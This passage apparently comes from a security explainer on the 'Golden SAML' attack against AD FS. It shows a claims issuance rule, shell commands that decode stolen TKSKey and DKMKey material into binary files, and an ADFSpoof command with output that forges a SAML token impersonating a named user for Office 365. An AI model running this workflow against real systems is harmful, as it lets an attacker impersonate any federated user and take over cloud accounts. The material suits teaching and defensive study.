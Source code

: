 ```powershell
  Access Policy:
  Access Policy Parameter:

  Issuance Rules: @RuleName = "Issue UPN"
c:[Type == "http://schemas.microsoft.com/ws/2008/06/identity/claims/windowsaccountname"]
=> issue(store = "Active Directory", types = ("http://schemas.xmlsoap.org/claims/UPN"), query = "samAccountName={0};userPrincipalName;{1}", param = regexreplace(c.Value, "(?<domain>[^\\]+)\\(?<user>.+)", "${user}"), param = c.Value);

--- Output Truncated ---
```


### Convert info

Next, the adversary needs to convert the information into a format the tools can use:   

- **TKSKey.txt** needs to be Base64 decoded.
- **DKMKey.txt** needs to be converted to hexadecimal values.

To accomplish this, they can use a tools like [HexEdit](https://hexed.it/) or run the following code in terminal mode on a Linux machine:

```powershell
# Convert TKSKey.txt to TKSKey.bin
cat TKSKey.txt | base64 -d > TKSKey.bin

# Convert DKMKey.txt to DKMKey.bin
# tr -d "-" -> Deletes all -'s
# xxd -r -p -> Read Hexdump 
cat DKMkey.txt | tr -d "-" | xxd -r -p > DKMkey.bin
```

### Forge golden SAML token

uses the [ADFSpoof](https://github.com/fireeye/ADFSpoof) tool to create a Golden SAML token for the user ADA_Fox@stealthbitslab.com.

```powershell
Python3.6 ADFSSpoof.py -b TKSKey.bin PKey.bin --server stealthbitslab.com o365 --upn ADA_FOX@stealthbitslab.com --objectguid {f37580cd-XXXX-XXXX-XXXX-6231f903a8c1}
```

```powershell
  ___   ____ ___________                   ____
  /   | / __ \/ ____/ ___/____ ____ ____ / __/
/ /| | / / / / /_   \__ \/ __ \/ __ \/ __ \/ /_  
/ ___ |/ /_/ / __/ ___/ / /_/ / /_/ / /_/ / __/  
/_/ |_/_____/_/   /____/ .___/\____/\____/_/     
                      /_/                        

A tool to for AD FS security tokens
Created by @doughsec

%3Ct%3ARequestSecurityTokenResponse%20xmlns%3At%3D%22http%3A//schemas.xmlsoap.org/
--- output truncated ---
t%3AKeyType%3E%3C/t%3ARequestSecurityTokenResponse%3E
```
